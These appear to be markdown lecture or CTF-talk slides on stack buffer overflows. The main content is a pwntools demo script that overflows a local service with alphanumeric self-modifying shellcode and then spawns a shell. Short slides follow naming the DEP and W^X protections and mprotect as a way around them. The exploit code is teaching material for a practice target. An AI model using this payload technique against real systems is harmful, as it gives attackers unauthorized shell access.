 --

# DEMO

```python
from pwn import *
#  io=remote('vpn.duckll.tw',9487)
#  io=process('./b')
io=remote('localhost',4000)

buf=io.recvline().split(" ")[-2]
buf=int(buf,16)
padding=112

shellcode="LLLLY"   # dec esp;*4 pop ecx;                    ecx=base
shellcode+="jAX4AH" # push 0x41;pop eax;xor al,0x41;dec eax; al=0xff
shellcode+="0A0"    # xor [ecx+0x30],al;                     '2'^0xff=0xcd
shellcode+="49"     # xor al,0x39                            al=0xc6
shellcode+="0A1"    # xor [ecx+0x31],al;                     'F'^0xc6=0x80
shellcode+="j7X44"  # push 0x37;pop eax;xor al,0x34          al=0x3
shellcode+="jzZ"    # push 0x7a;pop edx;                     edx=0x7a
shellcode=shellcode.ljust(0x30,'E') #padding with inc ebp
shellcode+="2F"

print shellcode

payload="A"*padding+p32(buf+padding+4)+shellcode

#  gdb.attach(io)
io.sendline(payload)
io.sendline(asm("nop\n"*60+shellcraft.sh()))
io.interactive()
```

---

# Protect

## DEP

## W^X

--

# Break

int mprotect(void \*addr, size_t len, int prot);

---

#Q & A

--

#END
